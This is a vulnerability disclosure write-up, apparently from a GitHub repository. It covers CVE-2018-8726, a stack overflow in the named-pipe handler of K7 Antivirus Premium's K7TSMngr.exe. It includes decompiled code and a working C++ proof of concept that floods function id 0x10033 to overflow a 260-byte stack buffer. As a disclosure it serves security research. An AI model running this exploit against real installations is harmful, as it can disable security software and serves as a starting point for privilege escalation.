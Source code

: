 # CVE-2018-8726

# Product / Component Affected

* **Product**: *K7 Antivirus Premium 15.1.0.53* 
* **Component**: *K7TSMngr.exe 16.0.0.70*

# K7TSMngr.exe Pipe Handler Background
*See description in [CVE-2018-8724](../CVE-2018-8724/readme.md)*

# Details
Following on from the background piece above regarding the Pipe, the handler for the function id 0x10033 has a vulnerability which can easily lead to a stack overflow. As there are stack cookies in place, it isn't possible to simply overwrite the return pointer without some extra form of information disclosure.

When sending this function id in, it will ultimately call the function sub_409A60

```C++

typedef struct _unk_10033
{
    CHAR szMode[64];
    CHAR szKeyName[64];
    BOOL bDisableWarning;
    BOOL bDisableTimeOut;
} unk_10033;



BOOL __stdcall sub_409A60(int dwInSize, unk_10033 *pInput, int dwOutSize, int pOutput, int a5)
{
    // Ensure that the input buffer >= 0x88, note there is no upper limit on the length
    if ( (unsigned int)dwInSize < 0x88 )
        return 0;
    if ( _stricmp(pInput->szMode, "GamingMode") )
        // Make szMode be anything other than "GamingMode" (case-insensitive) to get in here...
        return sub_401A40((int)pInput->szKeyName, pInput->bDisableWarning, pInput->bDisableTimeOut) == 1;
    
    // ... other coee but redacted ...
}

int __cdecl sub_401A40(int pszSomething, BYTE DisableWarning, BYTE bDisableTimeOut)
{
    int v3; // ecx
    HKEY v4; // esi
    CHAR szKey[260]; // [esp+0h] [ebp-108h]

    if ( pszSomething && *(_BYTE *)pszSomething )
    {
        // VULN: pszSomething is provided to be and can be any length. szKey is only 260 characters
        // and butts right up against the stack cookie. 
        wsprintfA(szKey, "%s\\%s\\%s\\%s", "Software\\K7 Computing\\K7TotalSecurity", "Products", v3, pszSomething);
    }
    // ... removed rest of routine, not relavent ...
    return 1;
}

/*
Stack Layout from IDA:
-00000108
-00000108 szKey           db 260 dup(?)
-00000004 Cookie          dd ?
+00000000  r              db 4 dup(?)
*/
```

As can be seen from the code, the actual overflow is simple to tigger but it will not provide code execution without a bit more work. As there were other easier vulnerabilities I was getting LPE with, I didn't progress this much more than the demonstration of the overflow.

# PoC Code

```C++
#include <Windows.h>
#include <stdio.h>

// Pipe header structure to simply talk to the pipe
typedef struct _unk1
{
	DWORD dwMagic;
	DWORD dwControlCode;
	DWORD dwInSize;
	DWORD field_c;
	DWORD dwFunctionId;
	DWORD dwInputDataSize;
	DWORD dwOutputDataSize;
} unk1;

// Structure specific to the Function Id 10033. This is slightly different to the one in the 
// snippets above as we don't care about the other fields and simply want to send over a
// a huge packet to overflow the stack.
typedef struct _unk_10033
{
	CHAR szMode[64];
	CHAR szKeyNameAsFlood[0x10000];
} unk_10033;


int main(int argc, char** argv)
{
	HANDLE hPipe = CreateFileA("\\\\.\\pipe\\K7TSMngrService1", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
	if (hPipe == INVALID_HANDLE_VALUE)
	{
		printf("CreateFileW Failed: 0x%08x\r\n", GetLastError());
		return 0;
	}

    // Setup the connection
	unk1 u1 = { 0 };
	u1.dwMagic = 0x4B375453;
	u1.dwControlCode = 0x1010;
	u1.dwInSize = 28;
	u1.dwFunctionId = 0x10033;

	u1.dwInputDataSize = sizeof(unk_10033);
	u1.dwOutputDataSize = 0x100;

	DWORD dwBytesWritten = 0;
	if (!WriteFile(hPipe, &u1, sizeof(u1), &dwBytesWritten, NULL))
	{
		printf("WriteFile 1 Failed: 0x%08x\r\n", GetLastError());
		return 0;
	}

	// This will trigger the stack overflow
	unk_10033 u1033 = { 0 };
	memset(u1033.szMode, 0x41, sizeof(u1033.szMode));
	memset(u1033.szKeyNameAsFlood, 0x42, sizeof(u1033.szKeyNameAsFlood));

	if (!WriteFile(hPipe, &u1033, sizeof(u1033), &dwBytesWritten, NULL))
	{
		printf("WriteFile 2 Failed: 0x%08x\r\n", GetLastError());
		return 0;
	}
	

    return 1;
}


```